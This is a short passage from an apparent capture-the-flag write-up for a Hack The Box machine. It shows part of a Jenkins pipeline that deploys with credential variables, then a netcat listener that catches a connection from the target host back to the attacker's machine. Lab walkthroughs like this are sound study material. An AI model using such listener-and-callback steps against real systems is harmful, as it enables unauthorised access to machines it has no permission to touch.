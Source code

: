 ```groovy
        sh 'mvn deploy -P cloudhub -Dmule.version=4.0.0 -Danypoint.username=${ANYPOINT_CREDENTIALS_USR} -Danypoint.password=${ANYPOINT_CREDENTIALS_PSW}' 
      }
    }
  }
}
```

### Connect from target to our host

![Untitled](HTB%20writeu%20673ee/Untitled%2058.png)

![Untitled](HTB%20writeu%20673ee/Untitled%2059.png)

```bash
nc -vnlp 8000
listening on [any] 8000 ...
connect to [10.10.14.37] from (UNKNOWN) [10.129.75.150] 44200
```
